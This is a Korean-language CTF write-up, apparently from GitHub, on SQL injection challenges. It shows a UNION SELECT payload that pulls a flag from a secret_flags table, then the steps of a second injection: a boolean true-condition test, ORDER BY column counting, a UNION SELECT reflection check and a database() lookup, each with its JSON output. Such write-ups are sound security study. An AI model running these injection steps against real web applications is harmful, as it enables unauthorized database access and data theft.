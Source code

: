 ## 플래그 획득

' UNION SELECT 1,flag_value,3,4,5,6,7,8,9,10,11,12 FROM secret_flags-- 

```
  {
    "id": "1",
    "game_name": "It is not Flag",

  },
  {
    "id": "1",
    "game_name": "segfault{}",

  },
  {
    "id": "1",
    "game_name": "segfault{fakeFake}",
 
  }
  ```

## [SNS 해킹] 문제에 들어가면 아래와 같은 웹페이지를 확인할 수 있습니다.

<img width="1213" alt="Image" src="https://github.com/user-attachments/assets/8d1deced-70b5-453f-867e-21eb95bb4452" />

### 참 조건을 통한 Blind SQLi 테스트
`'` 가 막히는 것 같아서 `?id=1 AND 1=1`를 사용해서 sqli 공격이 가능한 환경인 것을 확인 

### 컬럼 갯수 확인
`?id=1 ORDER BY 1` json 에 나와있는데 굳이 해야하나 하지만 혹시모르니까 확인 `총 8개`

```json 
  {
    "post_id": "1",
    "title": "My CTF Journey",
    "content": "Started learning about cybersecurity and CTF challenges. The world of hacking is fascinating!",
    "author": "hackr",
    "likes": "15",
    "views": "120",
    "created_at": "2025-05-08 11:02:50",
    "updated_at": "2025-05-08 11:02:50"
  }
```

### DB 출력 하는 컬럼 확인 / DB명 확인 
`UNION SELECT 1,2,3,4,5,6,7,8-- `확인했을때 전부 출력 되는 것을 확인 곧바로 `database()`로 db명이 `spec2` 확인 
```json
 {
    "post_id": "1",
    "title": "2",
    "content": "3",
    "author": "4",
    "likes": "5",
    "views": "6",
    "created_at": "7",
    "updated_at": "8"
  }
```
